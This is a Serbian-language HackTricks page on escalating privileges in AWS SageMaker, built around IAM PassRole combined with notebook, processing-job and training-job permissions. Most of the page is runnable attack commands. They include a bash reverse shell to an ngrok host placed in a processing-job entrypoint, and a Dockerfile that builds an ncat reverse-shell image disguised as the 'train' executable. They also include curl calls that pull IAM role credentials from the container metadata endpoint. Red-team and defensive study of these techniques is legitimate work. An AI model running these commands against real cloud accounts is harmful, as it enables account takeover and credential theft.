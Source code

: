 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Počnite sa kreiranjem beležnice sa IAM rolom koja je povezana sa njom:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Odgovor bi trebao sadržati polje `NotebookInstanceArn`, koje će sadržati ARN novokreiranog notebook instance. Zatim možemo koristiti `create-presigned-notebook-instance-url` API da generišemo URL koji možemo koristiti za pristup notebook instance kada bude spreman:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigirajte do URL-a u pretraživaču i kliknite na \`Open JupyterLab\` u gornjem desnom uglu, zatim se pomerite do taba “Launcher” i u sekciji “Other” kliknite na dugme “Terminal”.

Sada je moguće pristupiti metapodacima akreditiva IAM Role.

**Potencijalni uticaj:** Privesc na sagemaker servisnu ulogu koja je navedena.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Ako su Jupyter **notebook-ovi već pokrenuti** na njemu i možete ih nabrojati sa `sagemaker:ListNotebookInstances` (ili ih otkriti na bilo koji drugi način). Možete **generisati URL za njih, pristupiti im i ukrasti akreditive kao što je navedeno u prethodnoj tehnici**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potencijalni Uticaj:** Privesc na sagemaker servisnu ulogu koja je povezana.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Napadač sa tim dozvolama može da **natera sagemaker da izvrši processingjob** sa sagemaker ulogom povezanu. Napadač može da naznači definiciju kontejnera koji će biti pokrenut u **AWS upravljanom ECS nalogu**, i **ukrade kredencijale IAM uloge koja je povezana**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potencijalni Uticaj:** Privesc na sagemaker servisnu ulogu koja je navedena.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Napadač sa tim dozvolama će moći da kreira trening posao, **pokrećući proizvoljan kontejner** na njemu sa **priključenom ulogom**. Stoga, napadač će moći da ukrade kredencijale te uloge.

{% hint style="warning" %}
Ovaj scenario je teže iskoristiti nego prethodni jer je potrebno generisati Docker sliku koja će slati rev shell ili kredencijale direktno napadaču (ne možete navesti početnu komandu u konfiguraciji trening posla).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potencijalni uticaj:** Privesc na sagemaker servisnu ulogu koja je navedena.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Napadač sa tim dozvolama će (potencijalno) moći da kreira **hyperparameter training job**, **pokreće proizvoljan kontejner** na njemu sa **priključenom ulogom**.\
_Nisam iskoristio zbog nedostatka vremena, ali izgleda slično prethodnim eksploatacijama, slobodno pošaljite PR sa detaljima eksploatacije._

## Reference

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
